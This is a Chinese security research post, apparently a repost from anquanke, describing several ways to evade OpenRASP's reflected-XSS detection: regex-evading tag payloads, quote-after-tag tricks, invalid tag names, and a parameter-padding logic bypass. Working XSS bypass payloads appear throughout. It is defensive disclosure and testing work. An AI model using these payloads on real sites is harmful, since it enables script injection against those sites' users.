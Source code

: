 > 原文链接: https://www.anquanke.com//post/id/247612 


# OpenRASP xss算法的几种绕过方法


                                阅读量   
                                **46924**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t012b1bfb13be0028d0.png)](https://p3.ssl.qhimg.com/t012b1bfb13be0028d0.png)



openrasp默认只能检测反射型XSS，存储型XSS仅IAST商业版支持。对于反射型xss，openrasp也只能检测可控输出点在html标签外的情况，本文的绕过方法是针对这种情况。如果可控输出点在html标签内，如`&lt;input type="text" value="$input"&gt;`或`&lt;script&gt;...&lt;/script&gt;` 内部，openrasp几乎检测不到。



## 测试环境

windows / tomcat / jdk1.8 / openrasp 1.3.7-beta

测试环境部署参见[https://www.anquanke.com/post/id/241107](https://www.anquanke.com/post/id/241107)，或者官网文档。

在official.js中xss_userinput算法默认配置为ignore，修改为block来开启拦截。此时点击官方测试用例中下面链接，即可触发openrasp拦截。

[![](https://p3.ssl.qhimg.com/t01356f49ca51bf9ffe.png)](https://p3.ssl.qhimg.com/t01356f49ca51bf9ffe.png)

[![](https://p5.ssl.qhimg.com/t01940339fb313fdf9b.png)](https://p5.ssl.qhimg.com/t01940339fb313fdf9b.png)



## openrasp xss算法

openrasp xss算法有2种。算法1是针对PHP环境，此处不考虑。算法2是用户输入匹配算法，根据注释说明，算法原理是”当用户输入长度超过15，匹配上标签正则，且出现在响应里，直接拦截”。

[![](https://p0.ssl.qhimg.com/t0136744832f3ec0696.png)](https://p0.ssl.qhimg.com/t0136744832f3ec0696.png)

标签正则含义使用regexper网站解析如下

[![](https://p0.ssl.qhimg.com/t01af305b14a63132a6.png)](https://p0.ssl.qhimg.com/t01af305b14a63132a6.png)

标签正则从整体上来说匹配两种情况，一是请求参数值中有子字符串以`&lt;!` 开头的；二是请求参数值中有子字符串以`&lt;` 开头的。对于第二种情况，标签正则会匹配`&lt;` 字符后接1到12个大小写字母，再后接`/` 或`&gt;` 或`0x00 - 0x20` 字符的字符串。所以下面这些常见的xss测试payload都会拦截。

```
&lt;script&gt;alert(1)&lt;/script&gt;         // "&lt;script&gt;"部分匹配标签正则
&lt;img src=1 onerror=alert()&gt;       // "&lt;img "部分匹配正则，空格符对应正则中0x20
&lt;svg/onload=alert()&gt;              //  "&lt;svg/"部分匹配正则

```

`&lt;img src=1 onerror=alert()&gt;`触发拦截

[![](https://p4.ssl.qhimg.com/t014936125b67fb01b8.png)](https://p4.ssl.qhimg.com/t014936125b67fb01b8.png)



## 标签正则绕过

整理网上的一些xss 绕过payload，发现下面这些可以顺利绕过标签正则

```
&lt;d3v/onmouseleave=[1].some(confirm)&gt;click
&lt;d3/onmouseenter=[2].find(confirm)&gt;z
&lt;d3"&lt;"/onclick="1&gt;[confirm``]"&lt;"&gt;z
&lt;w="/x="y&gt;"/ondblclick=`&lt;`[confir\u006d``]&gt;z
```

浏览器直接输入上面那些xss payload会报400响应错误。对payload进行url编码所有字符。

[![](https://p2.ssl.qhimg.com/t018840de1306ca138e.png)](https://p2.ssl.qhimg.com/t018840de1306ca138e.png)

burpsuite repeater中右键”copy url”，复制url到浏览器中访问，点击即可触发弹框。

[![](https://p4.ssl.qhimg.com/t011fbad0a21551c801.png)](https://p4.ssl.qhimg.com/t011fbad0a21551c801.png)

### <a class="reference-link" name="%E6%A0%87%E7%AD%BE%E5%90%8E%E6%8E%A5%E5%8D%95%E5%8F%8C%E5%BC%95%E5%8F%B7"></a>标签后接单双引号

收集过程中还发现下面这两种xss payload也可以绕过。

```
&lt;a"/onclick=(confirm)()&gt;click 
&lt;a'/onclick=(confirm)()&gt;click
```

简单测了下其他标签后接单引号或双引号进行绕过，好像蛮多都行的。

```
&lt;button onclick=alert()&gt;12&lt;/button&gt;    // 拦截
&lt;button' onclick=alert()&gt;12&lt;/button&gt;   // 点击弹框
&lt;button" onclick=alert()&gt;12&lt;/button&gt;   // 点击弹框
&lt;div onclick=alert()&gt;12&lt;/div&gt;          // 拦截
&lt;div' onclick=alert()&gt;12&lt;/div&gt;         // 点击弹框
&lt;div" onclick=alert()&gt;12&lt;/div&gt;         // 点击弹框
```

例如，使用`123&lt;img' src=1 onclick=alert()&gt;123` ，url编码后，点击也能弹框。

[![](https://p1.ssl.qhimg.com/t01a647ed530b4d24f9.png)](https://p1.ssl.qhimg.com/t01a647ed530b4d24f9.png)

### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E6%97%A0%E6%95%88%E6%A0%87%E7%AD%BE"></a>构造无效标签

这种也可以用于绕过openrasp。看到这种绕过方式，感觉前面的都不香了。

[![](https://p3.ssl.qhimg.com/t0164f0fc49f94ded5e.png)](https://p3.ssl.qhimg.com/t0164f0fc49f94ded5e.png)

只要构造如下payload即可

```
&lt;abc1 onclick=confirm()&gt;click here   // 标签名是字母+数字
```

验证如下

[![](https://p5.ssl.qhimg.com/t0114f6e8a35ad706fc.png)](https://p5.ssl.qhimg.com/t0114f6e8a35ad706fc.png)

或者

```
&lt;abcdefabcdefa onclick=confirm()&gt;click here   // 标签名称长度大于12
```

[![](https://p4.ssl.qhimg.com/t019a8c1820a9f4a76d.png)](https://p4.ssl.qhimg.com/t019a8c1820a9f4a76d.png)



## 程序逻辑绕过

还有一种绕过方法，是从程序检测逻辑上进行绕过。

openrasp xss具体检测代码实现在这个文件中`agent/java/engine/src/main/java/com/baidu/openrasp/plugin/checker/local/XssChecker.java`。下面的一段代码是对”当用户输入长度超过15，匹配上标签正则，且出现在响应里，直接拦截”的具体实现。

[![](https://p1.ssl.qhimg.com/t014e85bbfecb259241.png)](https://p1.ssl.qhimg.com/t014e85bbfecb259241.png)

但代码中多了一处逻辑。如果请求会传递多个参数，当某个参数值长度大于15，且匹配之前的标签正则`&lt;![\-\[A-Za-z]|&lt;([A-Za-z]`{`1,12`}`)[\/\x00-\x20&gt;]` ，如果对应参数值没有在响应中出现时，变量count值会加1。当count值大于10时，openrasp会直接放行。控制程序运行到上面图片中第二个方框中即可产生绕过。

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E6%BC%94%E7%A4%BA"></a>绕过演示

此处为了查看payload内容方便，使用了post请求。如果转换成get请求，并对参数值url编码，效果一样。

原始请求会触发拦截

[![](https://p0.ssl.qhimg.com/t0159aca56387091f9d.png)](https://p0.ssl.qhimg.com/t0159aca56387091f9d.png)

绕过payload。在input参数前面添加多个input[n]的参数，且参数值为其他xss payload。

[![](https://p2.ssl.qhimg.com/t01f0d25049eabe8618.png)](https://p2.ssl.qhimg.com/t01f0d25049eabe8618.png)

转换成get请求，并对payload进行编码。

[![](https://p1.ssl.qhimg.com/t01f387d753c363ba30.png)](https://p1.ssl.qhimg.com/t01f387d753c363ba30.png)

### <a class="reference-link" name="%E7%BB%95%E8%BF%87payload%E5%88%86%E6%9E%90"></a>绕过payload分析

构造的绕过payload有几点要求。一是，虚构的请求参数理论上至少要有11个，如前面input0到input11请求参数。如果没成功，最好在增加几个请求参数。二是，虚构的请求参数名取值有些要求。三是，虚构的请求参数值不能与真实请求参数值相同。

因为这样的话，input0到input11这些请求参数在`parameterMap` 中会排在input参数前面，见下图。

[![](https://p4.ssl.qhimg.com/t01a7ace01a2b6f2703.png)](https://p4.ssl.qhimg.com/t01a7ace01a2b6f2703.png)

这样input0到input11这些参数就会优先input请求参数被openrasp检测逻辑处理，从而击中`count &gt; exceedLengthCount` 的条件进行绕过。



## 参考资料

[https://github.com/s0md3v/AwesomeXSS#awesome-tags—event-handlers](https://github.com/s0md3v/AwesomeXSS#awesome-tags--event-handlers)

[https://www.anquanke.com/post/id/173701](https://www.anquanke.com/post/id/173701)

[https://www.yuque.com/pmiaowu/web_security_1/scwgqm#JFw3a](https://www.yuque.com/pmiaowu/web_security_1/scwgqm#JFw3a)
